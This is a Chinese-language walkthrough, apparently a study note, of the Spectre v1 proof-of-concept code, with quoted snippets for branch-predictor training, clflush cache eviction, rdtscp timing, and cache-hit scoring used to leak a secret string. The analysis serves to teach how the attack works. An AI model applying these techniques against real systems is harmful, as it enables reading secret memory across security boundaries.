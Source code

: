 # 源码分析

## victim function

首先注意到`array1_size`的属性是`unsigned int`(32 bit)，`array1`和`array2`的属性是`uint8_t`，执行分支预测的代码如下：

```cpp
if (x < array1_size)
{
    temp &= array2[array1[x] * 512];
}
```

在取array2中的元素时，index之间的间隔至少512，说明address之间的间隔至少512 \* 8 = 4096 bytes。

## training

首先回忆若干个数据在cache中的存储方式：

1. array2不在cache（Flush+Reload）；
2. array1_size不在cache（方便在判断出来之前进行推测性执行）；
3. array1[x]在cache（方便尽早执行推测性执行的指令，以免在判断结果出来之后被flush掉）。

所以代码首先要从cache中去除/上载相应的数据：

```cpp
for (i = 0; i < 256; i++)
{
    _mm_clflush(&array2[i * 512]); /* intrinsic for clflush instruction */
}

for (j = 29; j >= 0; j--)
{
#ifndef NOCLFLUSH
    _mm_clflush(&array1_size);
    ...
}
```

循环架构如下：
```cpp
for (tries = 999; tries > 0; tries--)
{
    training_x = tries % array1_size; // array1_size = 16
    for (j = 29; j >= 0; j--)
    {
        /* Bit twiddling to set x=training_x if j%6!=0 or malicious_x if j%6==0 */
        // ...
        victim_function(x); // malicious_x from param
    }
}
```

执行时，每训练5次，恶意执行1次。可以看到，training_x的取值范围是[0, 15]，而malicious_x的值时秘密字符串的地址。显然在训练时，分支都会被预测为`x < array1_size`，之后使用malicious_x时，分支仍然按照训练时的预测结果执行。

随后就是测量，已确定哪一个malicious_x值被取用：

```cpp
time1 = __rdtscp(&junk);         /* READ TIMER */
junk = *addr;                    /* MEMORY ACCESS TO TIME */
time2 = __rdtscp(&junk) - time1; /* READ TIMER & COMPUTE ELAPSED TIME */
```
返回值是当前处理器的ticks。随后如果时间小于一定阈值，就认为击中cache，对应的malicious_x值会增加分数：

```cpp
if ((int)time2 <= cache_hit_threshold && mix_i != array1[tries % array1_size])
{
    results[mix_i]++; /* cache hit - add + 1 to score for this value */
}
```

> 这里访问的顺序有讲究：`mix_i = ((i * 167) + 13) & 255;`，见代码：https://godbolt.org/z/6axfK6j9c，为了防止所谓的“stride prediction”。
>



